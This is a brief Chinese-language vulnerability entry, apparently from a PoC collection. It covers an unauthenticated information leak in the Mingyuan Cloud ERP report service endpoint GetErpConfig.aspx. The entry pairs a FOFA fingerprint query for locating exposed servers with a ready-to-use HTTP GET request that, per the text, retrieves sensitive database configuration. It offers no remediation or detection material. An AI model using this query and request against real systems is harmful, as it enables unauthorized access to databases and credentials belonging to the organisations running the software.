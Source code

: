 # 明源云GetErpConfig.aspx信息泄露漏洞

明源云ERP报表服务 GetErpConfig.aspx 接口存在信息泄露漏洞，未经身份验证的远程攻击者可利用此漏洞获取内部数据库敏感配置信息，导致系统处于极不安全的状态。

## fofa

```javascript
body="报表服务已正常运行"
```

## poc

```javascript
GET /service/Mysoft.Report.Web.Service.Base/GetErpConfig.aspx?erpKey=erp60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

